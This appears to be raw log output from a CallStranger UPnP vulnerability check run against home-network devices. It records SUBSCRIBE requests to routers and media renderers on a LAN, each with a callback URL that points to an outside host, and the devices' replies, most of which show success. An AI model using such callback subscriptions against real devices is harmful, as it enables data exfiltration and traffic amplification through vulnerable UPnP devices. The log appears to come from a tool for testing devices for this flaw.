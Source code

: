     Calling stranger for  http://192.168.1.1:37215/evt/WANEthernetLinkConfig_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNRSj2ZczT5L4ZJvtQtwtyQaQmiYBdMAP96q-x1eCWLXAwGIIHMwZ6wvkPtlI0eAaYQHfOHqxrK2PvyYjKveFA9sbo4iyZ0vQKEyxStzRPCLQep4s0c0Lu53em19SP9T0S6FwCn8ISqe3RhloXMlA6nw==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/WANEthernetLinkConfig_1 seems successfull
    {'Server': 'ATP UPnP Core', 'TIMEOUT': 'Second-1800', 'SID': 'uuid:97714486-6046-2730-7119-835081292303', 'Date': 'Mon, 08 Jun 2020 07:15:23 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.1:37215/evt/LANHostConfigManagement_1 with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNM3m3GW8-4btkYqaWTStBESHNmhQqZwEDd8jRONZyHcWwp8aQDkTpIk__0qv0m7vLuRdfCVt0P5n3oRcbnUXvUh3BPZ1ZwRfXtFyWr3PjKcIVbvkGj4EWD2pFKeiBEFDfZKRvR0pzFnqdxdiUuSRytQ==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.1:37215/evt/LANHostConfigManagement_1 failed with status code:501
    {'Server': 'ATP UPnP Core', 'Date': 'Mon, 08 Jun 2020 07:15:23 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.22:2870/event/RenderingControl with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNny3BDg9OPz7WaHI8MiJpkALTuYhq7nY6l4raSduMcqumRKn4UlCXYs3sU9MgDhSi8-WtjR_X45asVQ3-r5fZ4ky6LR0WiG4BhqUTwmkf2615sCC3G4ZSfRGYq-G5qWVX&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:2870/event/RenderingControl seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'IPI/1.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:1387715a-035e-1090-b8e1-eef4918f5627', 'TIMEOUT': 'Second-300', 'CONTENT-LENGTH': '0', 'CONNECTION': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.22:2870/event/ConnectionManager with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNKQTdXOAlJaFdcir5kgI_v9PxZnpeWD-9IS6U2TqMM2aL1a4gg-JTL3CT5K8ZWAUBbEePDGqzqv7iiDzk41AMEiXILhED7lGiJ6wOO3LMSXNhamdQ37BLa8AoWmUuDGBxe-AEss0TC-QY8g7I67M68Q==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:2870/event/ConnectionManager seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'IPI/1.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:138b078e-035e-1090-a367-cb37c034dcad', 'TIMEOUT': 'Second-300', 'CONTENT-LENGTH': '0', 'CONNECTION': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.22:2870/event/AVTransport with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNw-5CaKWtBdFlWBV6PQtV4Q8koFEr9nKRbAOAm-_f035IQl9uUNY6MdrneLHLi_tBKJ37i5OOLiBsOYADTUpYtsFWApBe3NPCQgJDh5omi2mmClmPiVCPdjUNu7-TYmiK&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:2870/event/AVTransport seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'IPI/1.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:138da0f2-035e-1090-9f01-aca6dbf642e0', 'TIMEOUT': 'Second-300', 'CONTENT-LENGTH': '0', 'CONNECTION': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/RenderingControl/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNtLC8GIuICPflEhBEu8nFgxe12U0nnrJ_ewbmVwlrtu0yEqC6rWp3CuUgYdHSYalFv8dG5ETCsQBnx6PVdHbSzk6EGpYBwo8nvdXqJtdnvnjeveUz9Q4bhwZ4qDKKmiQb&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/RenderingControl/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13e92d5a-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/ConnectionManager/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNJJsfohjZJRLZdiBF4Kvt1amVenr9a1Zi3oHhu_Xfomk_li6uJ9l0OeR6YVh2d6qbCF-t1uAmMVJfs5Tu7FWiNg15UXhyF8ubI_YZxtXTC4zpxHt7r2MdISJ8WwOFQ_J-f6E5yV6Bv8c4A1BBqfuD2Q==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/ConnectionManager/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13ec9fee-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    